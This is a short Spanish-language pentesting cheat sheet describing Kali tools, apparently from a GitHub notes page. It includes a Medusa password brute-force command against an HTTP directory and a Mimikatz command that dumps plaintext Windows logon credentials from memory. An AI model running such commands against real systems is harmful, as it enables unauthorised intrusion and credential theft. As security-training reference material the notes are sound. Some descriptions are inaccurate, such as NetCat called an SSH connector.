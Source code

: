 ### Medusa 
Para crackear páginas con .htaccess.  

```bash
medusa -h 192.168.1.101 -u admin -P wordlist.txt -M http -m DIR:/test.php - 
```


### Metasploit 
Para explotar vulnerabilidades y escanear 


### Mimikatz 
Mimikatz junto con Windows Credential Editor son capaces de leer de la memoria para obtener las claves en texto plano. 

```bash
mimikatz.exe privilege::debug sekurlsa::logonPasswords full exit
```
(debe ser ejecutado en una ventana con permisos de administrador) 

 
### NC o NetCat 
Conector de ssh. Sirve para hacer listeners o  conexiones a puertos específicos (ver mas detalles abajo) 

 
### Netdiscover 
Encuentra equipos prendidos en la red.. (si no se le pone parámetros, busca en todos) 

 
### Nikto 
Audita servidor en búsqueda de vulnerabilidades conocidas. 
```bash
nikto -h <IP> 
```

 
### Nmap 
Escaneador por excelencia. (ver detalles) 


### nslookup  
Para realizar osint a servers de correo 

```bash
$nslookup 
>set q=txt 
><domain>             | para ver SPF 
>selector.<domain>    | para ver DKIMz 
>_dmarc.<domain>      | para ver dmarc 
>exit 
```

### Leafpad 
Notepad en interfaz gráfica de kali 
